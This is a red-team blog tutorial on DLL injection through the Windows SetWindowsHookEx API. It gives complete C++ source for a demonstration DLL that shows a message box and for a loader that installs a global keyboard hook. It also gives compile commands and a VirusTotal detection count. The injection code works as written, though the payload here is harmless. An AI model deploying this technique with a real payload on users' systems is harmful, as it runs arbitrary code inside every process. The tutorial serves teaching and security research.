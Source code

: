 ```yaml
---
title:  "Classic DLL injection via SetWindowsHookEx. Simple C++ malware."
date:   2021-11-25 10:00:00 +0600
header:
  teaser: "/assets/images/25/2021-11-24_18-00.png"
categories:
  - tutorial
tags:
  - dll injection
  - windows
  - malware
  - red team
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!

![dll injection](/assets/images/25/2021-11-24_18-00.png){:class="img-responsive"}    

In this tutorial, I'll take a look at the DLL injection by using the `SetWindowsHookEx` method.    

### SetWindowsHookEx

Let's go to look an example which demonstrates this technique. The `SetWindowsHookEx` installs a hook routine into the hook chain, which is then invoked whenever certain events are triggered. Let's take a look at the function syntax:
```cpp
HHOOK SetWindowsHookExA(
  [in] int       idHook,
  [in] HOOKPROC  lpfn,
  [in] HINSTANCE hmod,
  [in] DWORD     dwThreadId
);
```

The most important param here is `idHook`. The type of hook to be installed, which can hold one of the following values:

    WH_CALLWNDPROC
    WH_CALLWNDPROCRET
    WH_CBT
    WH_DEBUG
    WH_FOREGROUNDIDLE
    WH_GETMESSAGE
    WH_JOURNALPLAYBACK
    WH_JOURNALRECORD
    WH_KEYBOARD
    WH_KEYBOARD_LL
    WH_MOUSE
    WH_MOUSE_LL
    WH_MSGFILTER
    WH_SHELL
    WH_SYSMSGFILTER

In our case, I'll be hooking the `WH_KEYBOARD` type of event, which will allow us to monitor keystroke messages.

### malicious DLL

Let's go to prepare our malicious DLL. For simplicity, we create DLL which just pop-up a message box:
```cpp
/*
evil.cpp
simple DLL for DLL inject to process
author: @cocomelonc
https://cocomelonc.github.io/tutorial/2021/11/25/malware-injection-7.html
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

BOOL APIENTRY DllMain(HMODULE hModule,  DWORD  nReason, LPVOID lpReserved) {
  switch (nReason) {
  case DLL_PROCESS_ATTACH:
    break;
  case DLL_PROCESS_DETACH:
    break;
  case DLL_THREAD_ATTACH:
    break;
  case DLL_THREAD_DETACH:
    break;
  }
  return TRUE;
}

extern "C" __declspec(dllexport) int Meow() {
  MessageBox(
    NULL,
    "Meow from evil.dll!",
    "=^..^=",
    MB_OK
  );
  return 0;
}

```

As you can see we have a pretty simple DLL. The `DllMain()` function is called when the DLL is loaded into the process's address space. There's also a function named `Meow()`, which is an exported function and which is just pop-up message *"Meow from evil.dll!"*.   

### example. simple malware.

The next thing that we need to do is create our malware. Let's go to look the source code:
```cpp
/*
hack.cpp
DLL inject via SetWindowsHookEx
author: @cocomelonc
https://cocomelonc.github.io/tutorial/2021/11/25/malware-injection-7.html
*/
#include <windows.h>
#include <cstdio>

typedef int (__cdecl *MeowProc)();

int main(void) {
  HINSTANCE meowDll;
  MeowProc meowFunc;
  // load evil DLL
  meowDll = LoadLibrary(TEXT("evil.dll"));

  // get the address of exported function from evil DLL
  meowFunc = (MeowProc) GetProcAddress(meowDll, "Meow");

  // install the hook - using the WH_KEYBOARD action
  HHOOK hook = SetWindowsHookEx(WH_KEYBOARD, (HOOKPROC)meowFunc, meowDll, 0);
  Sleep(5*1000);
  UnhookWindowsHookEx(hook);

  return 0;
}
```

It's also pretty simple. First of all we call `LoadLibrary` to load our malicious DLL:    

![dll injection 2](/assets/images/25/2021-11-25_15-35.png){:class="img-responsive"}    

Then, we are calling the `GetProcAddress` to get the address of the exported function `Meow`:    

![dll injection 3](/assets/images/25/2021-11-25_15-36.png){:class="img-responsive"}    

After that, the our malware calls the most important function, the `SetWindowsHookEx`. The parameters passed to that function determine what the function will actually do:   

![dll injection 4](/assets/images/25/2021-11-25_15-40.png){:class="img-responsive"}    

As you can see, whenever the keyboard event will occur, our function will be called. And we are passing the address of the our exported function - `meowFunc` parameter. Also we are passing the handle to our DLL - `meowDll` parameter. The last parameter `0` specifies that we want all programs to be hooked, not just a specific one, so it's a global hook.    

Then we call `Sleep`:

![dll injection 5](/assets/images/25/2021-11-25_15-44.png){:class="img-responsive"}    

for demonstrate that our hook works.

Then we call the `UnhookWindowsHookEx()` function to unhook the previously hooked `WH_KEYBOARD` action:

![dll injection 6](/assets/images/25/2021-11-25_15-46.png){:class="img-responsive"}    

So finally after we understood entire code of the malware, we can test it.    
Let's go to compile malicious DLL firstly:
```bash
x86_64-w64-mingw32-gcc -shared -o evil.dll evil.cpp -fpermissive
```

![dll injection 7](/assets/images/25/2021-11-25_15-48.png){:class="img-responsive"}    

compile malware code:
```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe -mconsole -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![dll injection 8](/assets/images/25/2021-11-25_15-50.png){:class="img-responsive"}    

Then, see everything in action! Start our `hack.exe` on the victim machine (Windows 7 x64):
```cmd
.\hack.exe
```

![dll injection 9](/assets/images/25/2021-11-25_15-54.png){:class="img-responsive"}    

We can see that everything was completed successfully and at this point whenever we start a program, pop-up our message only when keyboard key is pressed.   

### Conclusion

In this article, I've demonstrate how we can use the `SetWindowsHookEx` function to inject the DLL into the process's address space and execute arbitrary code inside the process's address space.    

There is a caveat. This technique is not working in my Windows 10 x64 machine. I think the reason is this: CIG block this technique. Windows 10 x64 have two important things:

- **CFG (Control Flow Guard)** – prevent indirect calls to non-approved
addresses
- **CIG (Code Integrity Guard)** - only allow modules signed by
Microsoft/Microsoft Store/WHQL to be loaded into the process memory.   

In [this](https://i.blackhat.com/USA-19/Thursday/us-19-Kotler-Process-Injection-Techniques-Gotta-Catch-Them-All.pdf) presentation from BlackHat USA 2019, the authors explain that CIG block this technique.    

Let's go to upload our `hack.exe` to virustotal:

![dll injection 10](/assets/images/25/2021-11-26_03-02.png){:class="img-responsive"}    

[https://www.virustotal.com/gui/file/273e191999eb6a4bc010eeaf9c4e196d917509250f87a121fa1cfeded41b7921](https://www.virustotal.com/gui/file/273e191999eb6a4bc010eeaf9c4e196d917509250f87a121fa1cfeded41b7921)    

**So, 5 of 67 AV engines detect our file as malicious.**    

[BlackHat USA 2019 process injection techniques Gotta Catch Them All](https://i.blackhat.com/USA-19/Thursday/us-19-Kotler-Process-Injection-Techniques-Gotta-Catch-Them-All.pdf)     
[SetWindowsHookEx](https://docs.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-setwindowshookexa)    
[Using Hooks MSDN](https://docs.microsoft.com/en-us/windows/win32/winmsg/using-hooks)    
[Exporting from a DLL](https://docs.microsoft.com/en-us/cpp/build/exporting-from-a-dll-using-declspec-dllexport?view=msvc-170)        
[Source code in Github](https://github.com/cocomelonc/2021-11-24-malware-injection-7)    

> This is a practical case for educational purposes only.      

Thanks for your time, happy hacking and good bye!    
*PS. All drawings and screenshots are mine*
